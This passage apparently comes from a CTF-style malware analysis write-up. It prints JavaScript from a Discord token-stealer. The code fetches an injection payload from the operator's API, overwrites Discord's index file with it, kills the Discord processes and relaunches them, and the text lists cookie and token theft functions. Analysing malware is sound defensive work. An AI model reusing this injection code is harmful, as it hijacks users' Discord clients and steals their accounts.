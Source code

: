                 if(discord_index) infectedDiscords?.push(
                    dir?.split(process.env.LOCALAPPDATA)?.[1]?.replace('\\', '')
                );

                const request = await fetch(options.api + 'injections', {
                    method: 'GET',
                    headers: {
                        duvet_user: options?.user_id,
                        logout_discord: options?.logout_discord
                    }
                });

                const data = await request.json();

                writeFileSync(discord_index, data?.discord, {
                    flag: 'w'
                });

                await kill(['discord', 'discordcanary', 'discorddevelopment', 'discordptb']);
                exec(`${join(dir, 'Update.exe')} --processStart ${dir?.split(process.env.LOCALAPPDATA)?.[1]?.replace('\\', '')}.exe`, function(err) {
                    if(err) {};
                });
            };
        });

        return infectedDiscords;
        };
        ```
    - There are multiple functions which includes extracting firefox cookies, getting discord tokens, stealing firefox tokens, checking the tokens obtained, collecting all browsers data etc.

Now we have all the required information for answering the questions

### Complete
